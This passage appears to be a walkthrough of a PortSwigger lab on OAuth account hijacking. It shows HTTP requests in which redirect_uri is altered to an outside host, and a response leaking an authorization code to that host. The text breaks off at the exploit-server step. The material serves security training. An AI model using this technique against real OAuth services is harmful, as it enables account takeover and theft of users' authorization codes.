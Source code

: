 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220610230005.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220610230235.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220610230202.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220610231616.png)

### OAuth account hijacking via redirect_uri
```bash

# This lab uses an [OAuth](https://portswigger.net/web-security/oauth) service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

# To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.

# The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

# You can log in with your own social media account using the following credentials: `wiener:peter`.


Go to: "My account"
Upon redirection login:

wiener:peter

Logout
Go to: "My account"
Click "Continue"
Go to: HTTP history
Find:

GET /auth?client_id=jy9hhtqudaod0tcrrziu6&redirect_uri=https://ac621ff31f1feb34c0930504008e00fe.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/1.1

Send to repeater

Change:

GET /auth?client_id=jy9hhtqudaod0tcrrziu6&redirect_uri=https://ac621ff31f1feb34c0930504008e00fe.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/1.1

To

GET /auth?client_id=jy9hhtqudaod0tcrrziu6&redirect_uri=https://test123.com/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/1.1

Response:

HTTP/1.1 302 Found

Redirecting to <a href="https://test123.com/oauth-callback?code=3NCfgBLpNRTy0PAyKUE2z46w2LRGlbQqNpecOX8z0Lw">

Go to: "Go to exploit server"

Change:

```
